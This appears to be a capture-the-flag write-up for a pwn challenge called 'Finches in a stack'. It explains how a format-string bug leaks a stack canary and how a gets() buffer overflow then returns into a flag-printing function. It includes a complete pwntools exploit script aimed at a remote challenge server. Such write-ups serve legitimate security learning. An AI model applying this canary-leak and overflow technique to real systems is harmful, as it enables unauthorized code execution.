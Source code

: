# Finches in a stack

Let's run a checksec. Canary, no PIE.

On our first input, there's a format string vuln. 

On the second input, there's a buffer overflow as gets is used. 

There is also a flag function that seems to call system("cat flag.txt"). We just need to return to this function.\
There's a canary, so this isn't so easy. 

We can, however, use our format string vulnerability to leak the canary value, as the canary is stored on the stack and format strings let us leak values stored on the stack. I used a simple fuzzing script to find the canary offset, which was 11. We can set a breakpoint at the instruction which checks the canary and paste in a cyclic pattern to get the offset to the canary, which is 24 by checking the loaded canary value from the stack against the pattern. Our payload will be:

junk + canary + 12 bytes of junk + address of flag function


```python
from pwn import *
import re
e = ELF("./fias")
#p = e.process()
p = remote('95.216.233.106',64832)
p.clean()
p.sendline("%11$p")
output = p.recvline().decode()
print(output)
leak = int(re.findall("Nice to meet you, (.*)!", output)[0], 16)
canary = leak
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
